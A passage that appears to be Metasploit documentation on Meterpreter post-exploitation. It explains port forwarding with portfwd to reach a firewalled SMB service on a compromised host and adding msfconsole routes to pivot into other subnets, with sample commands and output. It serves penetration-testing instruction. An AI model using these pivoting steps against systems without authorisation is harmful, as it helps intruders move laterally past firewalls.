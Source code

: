 **Example 2: Using exploit/multi/script/web_delivery**

Another way to migrate to a native Meterpreter is by using the exploit/multi/script/web_delivery
module. To learn how, please read the module documentation for that module.

## Routing through the portfwd command

The portfwd command allows you to talk to a remote service like it's local. For example, if you
cannot talk to the SMB service remotely on the compromised host because it is firewalled, then
you can use portfwd to establish that tunnel:

```
meterpreter > portfwd add -l 445 -p 445 -r 192.168.1.220
[*] Local TCP relay created: :445 <-> 192.168.1.220:445
meterpreter > portfwd

Active Port Forwards
====================

   Index  Local        Remote             Direction
   -----  -----        ------             ---------
   1      0.0.0.0:445  192.168.1.220:445  Forward
```

And then talk to it like it's a local service:

```
msf auxiliary(smb_version) > run

[*] 127.0.0.1:445         - Host is running Windows 7 Ultimate SP1 (build:7601)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Routing through msfconsole

The route command from the msf prompt can also be used to bypass firewall like portfwd, but it also
allows you to connect to hosts on a different network through the compromised machine.

To do that, first off, look at the ifconfig/ipconfig output and determine your pivot point:

```
meterpreter > ipconfig
```

Make sure you know the subnet, netmask, and the Meterpreter/session ID. Return to the msf prompt,
and establish that route:

```
msf > route add 192.168.1.0 255.255.255.0 1
```

At that point, you should have a working pivot. You can use other Metasploit modules to explore
or exploit more hosts on the network, or use auxiliary/server/socks4a and [Proxychains](http://proxychains.sourceforge.net/) to allow
other third-party tools to do the same.
